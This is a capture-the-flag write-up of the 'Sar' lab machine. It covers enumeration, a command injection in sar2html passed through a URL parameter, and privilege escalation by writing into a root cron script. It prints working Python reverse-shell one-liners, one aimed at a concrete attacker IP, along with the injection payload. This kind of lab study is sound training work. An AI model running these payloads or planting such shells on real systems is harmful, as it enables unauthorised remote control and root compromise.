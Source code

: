 # Sar

Machine: [Sar](https://portal.offensive-security.com/labs/play)\
Difficulty: Warm up




## Enumeration

What operating system is on this machine? Linux
What ports/services are on running on this machine?
![Results!](screenshots/1.png)

From the gobuster scan, I found a robots.txt file that contained interesting txt 'sar2HTML'. Comes to find out this is running on the Machine so we navigate the directory.\

![Results!](screenshots/2.png)

What is sar2html? Sar2html is the plotting tool for system statistics (sar data) of following operating systems: HPUX 11.11, 11.23, 11,31. Redhat 3, 4, 5, 6, 7. Solaris 5.9, 5.10, 5.11. Suse 8, 9, 10, 11, 12.\


![Results!](screenshots/4.png)

Looking up the version of sar2html, I find that the current version on this machine is vulnerable to remote command execution. Find the exploit [here](https://www.exploit-db.com/exploits/47204).\

I typed this into the url initally to see how it worked: http://192.168.57.35/sar2HTML/index.php/index.php?plot=;pwd \
It took me a bit, but I found where the output is under the 'Select Host' drop down menu.

![Results!](screenshots/5.png)


From this, we can pass commands to output some information to us such as what is installed on this machine, what the persions of the files are etc. But since it is executing commands, we can use this to spawn a reverse shell.  We will use python to do this.
Parameter: python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IPADDRESS>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\

![Results!](screenshots/6.png)


## Flags
User:

![Results!](screenshots/7.png)

Root:

I transfered linpeas over to the victim machine to see what I might be able to do in order to escalate privileges. 


![Results!](screenshots/9.png)


Navigating to the cronjob directory we see two .sh files and one of them is the file that was reported by linpeas.sh.\ 

![Results!](screenshots/8.png)
Since finally.sh is getting executed every 5th minute by root and this script makes a call to write.sh which we have rw permissions, we can get a root shell this way.  Since we already know python3 is running on the machine, lets just reuse the command that gave us the first shell.


Command: echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.57\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"


I setup a netcat listener and I was able to get a root shell!

![Results!](screenshots/11.png)
